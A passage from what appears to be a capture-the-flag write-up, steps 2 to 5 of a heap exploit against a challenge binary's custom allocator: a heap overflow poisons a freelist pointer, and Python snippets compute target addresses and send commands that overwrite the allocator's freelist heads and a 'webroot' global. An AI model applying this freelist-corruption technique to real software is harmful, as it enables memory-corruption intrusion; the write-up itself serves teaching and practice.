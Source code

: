 2. Overflow heap with an invalid command, keep chunk at `0x2` intact and
   manipulate freelist pointer in chunk at `0x3`
   
   ```
   [0x1: | 9 | AAAAAAAA.... ]
   [0x2: | \x00\x00\x00\x00 | AAAAAA... ] <- heads[9]
   [0x3: | addr | ... ] <- heads[1]
   [0x4: | NULL | ... ] <- heads[8]
   ```
   
3. Trigger allocation in bin 1 with the `language` command

   ```
   [0x1: | 9 | command: "language"]
   [0x2: | 9 | new_language: "Y" * 16 ]
   [0x3: | 2 | language: "Y" * 16 ]
   [0x4: | NULL | ... ] <- heads[8]
   ```
   
   This will write `addr` to the top of the freelist of bin 1 and the chunk at
   `0x3` stays allocated, i.e. `heads[1] == addr`.

   We chose addr to be something we can later use to manipulate the freelist
   heads. We computed `addr` in the following way:
   
   ```python
   webroot = "./public/"

   # the address we want to write to malloc_freelist_heads[0]
   w_real_addr = p64(velf.symbols['webroot'] - 1)
   # the padding we need so that this is allocated in bin 1
   w_addr_pad = "X" * (16 - strlen(w_real_addr))
   w_addr =  w_addr_pad + w_real_addr

   # we want to write to malloc_freelist_heads[0]
   addr = velf.symbols["malloc_freelist_heads"]
   addr -= len(webroot)   # get first copies "./public/"
   addr -= len(w_addr_pad)  # padding to allocate in bin 1
   addr -= 1  # malloc returns ptr+1
   ```

   Sothe next allocation in bin 1 will return a pointer that we can use to
   manipulate the actual freelist headers.

4. Perform `get` command to corrupt the freelist heads

   ```python
   vp.sendline("get")
   vp.sendline(w_addr)
   ```
   
   so the freelist head of bin 0 now is `&webroot - 1`.

5. Use `language` command to manipulate the `webroot` global variable.
   Allocating in bin 0, will now return the desired address.
   
   ```python
   vp.sendline("language")
   vp.sendline(p64(0x004014a2))  # just one of the pointers to a NULL byte
   ```
   